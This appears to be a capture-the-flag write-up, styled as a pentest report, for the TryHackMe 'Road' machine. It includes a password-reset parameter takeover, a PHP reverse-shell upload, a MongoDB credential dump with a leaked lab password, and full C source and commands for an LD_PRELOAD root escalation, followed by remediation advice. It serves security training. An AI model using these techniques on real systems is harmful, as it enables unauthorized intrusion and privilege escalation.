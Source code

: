 # 🛡️ Pentest Report: TryHackMe — Road (Medium)

## 1. Introduction
- **Date:** 12.09.2025  
- **Pentester:** [your nickname]  
- **Target IP:** xxx.xxx.xxx.xxx  
- **Goal:** Identify vulnerabilities, exploit them, and obtain root access.  

---

## 2. Executive Summary
The penetration test of the *Road (Medium)* machine revealed multiple misconfigurations and vulnerabilities that allowed us to escalate privileges from a low-privileged web user to full root control.  

- **Open ports:** 22 (SSH), 80 (HTTP)  
- **Exploitation:** File upload vulnerability + insecure password reset → gained admin access  
- **Privilege Escalation:** Credential harvesting via MongoDB, then LD_PRELOAD abuse → root access  
- **Impact:** Full compromise of the system  

**Recommendation:** Patch web application logic, restrict DB access, and harden sudo rules.  

---

## 3. Methodology
1. **Reconnaissance:** Nmap scanning of open ports and services  
2. **Web Enumeration:** Directory brute forcing, CMS analysis, and login page investigation  
3. **Exploitation:** Abuse of password reset and file upload for PHP reverse shell  
4. **Privilege Escalation:** MongoDB credential discovery, SSH access, LD_PRELOAD misconfiguration  
5. **Post-Exploitation:** Root shell and flag retrieval  

---

## 4. Findings & Exploitation

### 4.1 Nmap Scan
Command used:
```bash
sudo nmap -sC -sV -Pn -p- xxx.xxx.xxx.xxx
```

**Results:**
- 22/tcp → SSH  
- 80/tcp → HTTP  

---

### 4.2 Web Enumeration
- Discovered directories using gobuster:  
  - `/phpmyadmin`  
  - `/index.php`  
  - `/v2` → redirected to `/v2/admin/login.html`  

- Found **login panel** with registration option.  

---

### 4.3 Exploitation of Web Application
1. Registered a new user → accessed profile section.  
2. Found **file upload function** (image upload).  
3. Discovered email `admin@sky.thm`.  
4. Abused **password reset** with Burp Suite: changed email parameter to `admin@sky.thm` → gained **admin access**.  
5. Uploaded **PHP reverse shell** → found file in `/v2/profileimages/`.  
6. Accessed shell via:
```
http://xxx.xxx.xxx.xxx/v2/profileimages/shell.php
```
7. Obtained shell as `www-data`.

---

## 5. Privilege Escalation

### 5.1 From www-data to webdeveloper
- Uploaded and ran **LinPEAS**.  
- Found `/usr/bin/mongod` running.  
- Connected to MongoDB locally:  
  ```bash
  mongo
  show databases
  use backup
  db.user.find()
  ```
- Extracted credentials:  
  - **User:** webdeveloper  
  - **Pass:** BahamasChapp123!@#  

- Logged in via SSH as `webdeveloper`.

---

### 5.2 From webdeveloper to root
- Checked sudo privileges:
```bash
sudo -l
```
- Found `/usr/bin/sky_backup_utility` executable with **LD_PRELOAD** allowed.  
- Created malicious shared object `shell.c`:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```
- Compiled and executed:
```bash
gcc -fPIC -shared -o /tmp/shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
```
- Gained **root shell**.

---

## 6. Proof of Compromise
```bash
cat /root/root.txt
```
**Flag:** `THM{...}`  

---

## 7. Recommendations
- Disable password reset parameter manipulation → validate user email properly.  
- Restrict file upload (file type validation, no PHP execution).  
- Remove unnecessary services (MongoDB exposed locally).  
- Update sudoers configuration → remove `env_keep+=LD_PRELOAD`.  
- Apply least privilege principle for user accounts.  

---

## 8. Appendix
- Nmap scan output  
- Gobuster results  
- MongoDB dump evidence  
- C exploit code for LD_PRELOAD  
